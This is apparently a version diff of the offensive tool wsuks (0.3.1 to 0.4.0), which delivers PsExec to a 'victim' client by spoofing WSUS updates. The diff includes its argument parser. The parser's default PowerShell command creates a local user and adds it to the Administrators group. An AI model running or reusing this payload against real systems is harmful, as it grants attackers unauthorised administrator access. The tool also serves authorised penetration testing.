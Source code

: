 ### Comparing `wsuks-0.3.1/wsuks/executables/PsExec.exe` & `wsuks-0.4.0/wsuks/executables/PsExec.exe`

 * *Files identical despite different names*

### Comparing `wsuks-0.3.1/wsuks/executables/PsExec64.exe` & `wsuks-0.4.0/wsuks/executables/PsExec64.exe`

 * *Files identical despite different names*

### Comparing `wsuks-0.3.1/wsuks/helpers/argparser.py` & `wsuks-0.4.0/wsuks/helpers/argparser.py`

 * *Files 8% similar despite different names*

```diff
@@ -24,30 +24,31 @@
                  Version: {__version__}
 """)
 
 
 def initParser():
     example_text = """Examples:
     wsuks -t 192.168.0.10 --WSUS-Server 192.168.0.2
-    wsuks -t 192.168.0.10 -u User -p Password123 -dc-ip 192.168.0.1
+    wsuks -t 192.168.0.10 --WSUS-Server 192.168.0.2 -u User -p Password123 -d Domain.local
+    wsuks -t 192.168.0.10 -u User -p Password123 -d Domain.local -dc-ip 192.168.0.1
     """
     parser = argparse.ArgumentParser(prog='wsuks', epilog=example_text, formatter_class=RawTextHelpFormatter)
 
     parser.add_argument('-v', '--version', action='version', version='Current Version: %(prog)s 2.0')
-    parser.add_argument('-d', '--debug', action='store_true', help='Enable debug output')
+    parser.add_argument('--debug', action='store_true', help='Enable debug output')
 
     parser.add_argument('-t', '--target-ip', metavar='', dest='targetIp', help='IP Address of the victim Client. (REQUIRED)', required=True)
     parser.add_argument('-I', '--interface', metavar='', help='Network Interface to use. (DEFAULT: %(default)s)', default='eth0')
     parser.add_argument('-e', '--executable', metavar='', default=f'{dirname(wsuks.__file__)}/executables/PsExec64.exe',type=argparse.FileType('rb'), help='The executable to returned to the victim. It has to be signed by Microsoft (DEFAULT: %(default)s)')
-    parser.add_argument('-c', '--command', metavar='', help='The command to execute on the victim. (DEFAULT: %(default)s)', default='/accepteula /s powershell.exe \'New-LocalUser -Name "WSUKS_USER" -Password $(ConvertTo-SecureString "WSUKS_PASSWORD" -AsPlainText -Force) -Fullname "wsuks user" -Description "This user was generated by the wsuks Tool"; Add-LocalGroupMember -Group $(Get-LocalGroup -SID S-1-5-32-544 | Select Name) -Member "WSUKS_USER"\'')
+    parser.add_argument('-c', '--command', metavar='', help='The command to execute on the victim. (DEFAULT: %(default)s)', default='/accepteula /s powershell.exe \'PREFIXAdd-LocalGroupMember -Group $(Get-LocalGroup -SID S-1-5-32-544 | Select Name) -Member "WSUKS_USER"\'')
 
     simple = parser.add_argument_group('AUTOMATIC MODE', 'Discover the WSUS Server automatically by searching for GPOs in SYSVOL. (Default)')
-    simple.add_argument('-u', '--username', metavar='', help='Username to authenticate with. (Required in automatic Mode)')
-    simple.add_argument('-p', '--password', metavar='', help='Password to authenticate with. (Required in automatic Mode)')
-    simple.add_argument('-dc-ip', metavar='', dest='dcIp', help='IP Address of the domain controller. (Required in automatic Mode)')
-    simple.add_argument('--domain', metavar='', help='Domain to authenticate with. (Optional)')
+    simple.add_argument('-u', '--username', metavar='', help='Username to authenticate with')
+    simple.add_argument('-p', '--password', metavar='', help='Password to authenticate with')
```